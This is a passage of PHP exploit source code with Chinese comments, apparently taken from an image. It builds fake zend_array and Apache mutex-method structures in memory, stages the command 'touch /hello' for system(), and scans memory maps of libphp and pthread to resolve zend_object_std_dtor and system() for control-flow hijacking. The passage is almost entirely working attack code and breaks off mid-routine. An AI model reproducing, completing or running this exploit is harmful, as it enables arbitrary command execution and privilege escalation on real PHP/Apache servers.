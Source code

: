     //将apr_proc_mutex_t结构与zend_array结构结合为一个结构
    $evil_zend_array_start_addr = $evil_parent_end_addr;
    echo "evil zend_array start addr:0x".dechex($evil_zend_array_start_addr)."\n";

    $evil_zend_array_end_addr = $evil_zend_array_start_addr + 0x38;
    echo "evil zend_array end addr:0x".dechex($evil_zend_array_end_addr)."\n";

    //apr_proc_mutex_unix_lock_methods_t结构
    $evil_mutex_methods_start_addr = $evil_zend_array_end_addr;
    $evil_mutex_methods_end_addr = $evil_mutex_methods_start_addr + 0x50;

    echo "evil mutex_methods start addr:0x".dechex($evil_mutex_methods_start_addr)."\n";
    echo "evil mutex_methods end addr:0x".dechex($evil_mutex_methods_end_addr)."\n";

    //system()中的字符串

    $evil_string = "touch /hello";
    $evil_string_len = strlen($evil_string)+1;//\0结尾

    if($evil_string_len%8){//对齐
        $evil_string_len = ((int)($evil_string_len/8)+1)*8;
    }
    echo "evil string: ".$evil_string." len:".$evil_string_len."\n";

    $evil_string_start_addr = $evil_mutex_methods_end_addr;
    $evil_string_end_addr = $evil_string_start_addr + $evil_string_len;

    echo "evil string start addr:0x".dechex($evil_string_start_addr)."\n";
    echo "evil string end addr:0x".dechex($evil_string_end_addr)."\n";

    //查找zend_object_std_dtor的地址(我的在libphp7.so)
    $zend_object_std_dtor_addr = 0;
    $libphp_region = get_mem_region("libphp");
    if(!count($libphp_region)){
        die("can't find zend_object_std_dtor function addr\n");
    }

    for($i = 0;$i<count($libphp_region);$i++){
        if($libphp_region[$i][2] === "r-xp"){
            $zend_object_std_dtor_addr = $libphp_region[$i][0]+0x4F8300;//zend_object_std_dtor 在libphp7.so代码段中的偏移
            break;
        }
    }

    if($zend_object_std_dtor_addr === 0){
        die("can't find zend_object_std_dtor function addr\n");
    }
    echo "zend_object_std_dtor function addr:0x".dechex($zend_object_std_dtor_addr)."\n";

    //查找system函数的地址(在libpthread中)
    $system_addr = 0;
    $pthread_region = get_mem_region("pthread");
    if(!count($pthread_region)){
        die("can't find system function addr\n");
    }
